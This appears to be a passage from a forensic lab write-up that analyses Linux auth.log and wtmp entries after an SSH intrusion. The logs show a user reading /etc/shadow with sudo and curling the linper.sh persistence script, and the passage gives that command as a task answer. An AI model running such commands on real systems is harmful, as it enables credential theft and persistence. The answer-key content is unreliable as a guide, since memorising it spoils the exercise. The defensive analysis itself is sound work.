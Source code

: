 ```

Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: Accepted password for cyberjunkie from 65.2.161.68 port 43260 ssh2
Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: pam_unix(sshd:session): session opened for user cyberjunkie(uid=1002) by (uid=0)
Mar  6 06:37:34 ip-172-31-35-28 systemd-logind[411]: New session 49 of user cyberjunkie.
Mar  6 06:37:34 ip-172-31-35-28 systemd: pam_unix(systemd-user:session): session opened for user cyberjunkie(uid=1002) by (uid=0)

```

`wtmp` shows the session starting one second later:

```

[7] [02667] [ts/1] [cyberjunkie] [pts/1       ] [65.2.161.68         ] [65.2.161.68    ] [2024-03-06T06:37:35,475575+00:00]

```

### Activity

Once logged in, there are a few actions that the cyberjunkie user takes that are logged in `auth.log`. At 06:37:57, they print the `/etc/shadow` file containing the password hashes for the users on the system using `sudo`:

```

Mar  6 06:37:57 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/cat /etc/shadow
Mar  6 06:37:57 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
Mar  6 06:37:57 ip-172-31-35-28 sudo: pam_unix(sudo:session): session closed for user root

```

About a minute later they download `linper.sh` from GitHub:

```

Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
Mar  6 06:39:38 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
Mar  6 06:39:39 ip-172-31-35-28 sudo: pam_unix(sudo:session): session closed for user root

```

So the command run is `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh` (Task 8).

The logs don’t have any activity beyond that.

## Results
